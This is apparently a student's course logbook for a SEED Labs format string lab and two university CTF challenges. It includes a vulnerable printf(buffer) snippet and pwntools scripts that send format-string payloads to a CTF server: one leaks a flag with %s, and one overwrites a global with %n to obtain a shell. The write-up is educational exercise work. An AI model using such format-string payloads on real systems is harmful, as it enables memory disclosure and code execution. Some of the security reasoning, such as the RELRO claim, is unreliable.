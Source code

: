 # LOGBOOK #6

## SEED Labs - Format String Attack Lab

### Tasks

The guides for each of the tasks are located at:

- [Task #1](guides/logbook-6/task1.md)
- [Task #2](guides/logbook-6/task2.md)
- [Task #3](guides/logbook-6/task3.md)

## CTF - Desafio 1

```
RELRO           STACK CANARY      NX            PIE            RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     Yes	0		2	program
```

This program has a *Partial RELRO*, so we know that we won't be able to do a buffer overflow. Also there is a *stack canary*, so there are low chances of having a stack smash. *NX* is enabled, so the stack isn't executable and we can't make a jump to a custom shellcode. There is no *PIE*.

After seeing the code, we've noticed a code segment vulnerable to format string attack:

```c
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```

Watching this, we know that the printf is vulnerable to format strings and even better, that we control its input.

We have also noticed that the flag is being loaded into a global variable `flag`, so, we can easily use GDB to find its address, by doing `p &flag`.

![CTF Challenge 1](/images/logbook6/00.png)

- In contrary to SEED Labs, we didn't need to calculate the offset, because we got our input imediatly:

```bash
❯ echo "ABCDE %s" | nc ctf-fsi.fe.up.pt 4004
Try to unlock the flag.
Show me what you got:You gave me this: ABCDE
Disqualified!
```

Now that we know the address of `flag`, we can build our payload:

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

payload = (0x804c060).to_bytes(4, byteorder='little') + b"%s"
p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

## CTF - Challenge 2

This challenge is similar to the first one, but with some changes.
In this challenge, instead of just reading the value of a global variable, you have to change its value to `0xbeef` to get a shell.

In this task, we cannot write directly 48879 (beef in decimal) to the address. Firstly, we have to write the global variable's address `0x0804c034`, which was found with gdb like in the previous challenge address to the payload, as in the previous examples and then, as the address are 4 Bytes, we write 48879 - 4 = `48875 Bytes`.

Also, by reading `man 3 printf`, we know that in printf, `%n` is a special string formatter that instead of displaying something, loads the number of character that have been printed before itself to the variable pointed by the argument (which, in this case is our address).

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

payload = (0x0804c034).to_bytes(4, byteorder='little') + b"%48875x" + b"%1$n"
p.recvuntil(b"here...")
p.sendline(payload)
p.interactive()
```

![CTF Challenge 2](/images/logbook6/01.png)

Note: The notation `%<n>$d` is just the same as applying the string formatter to the n-th value, but in a less exhaustive way.  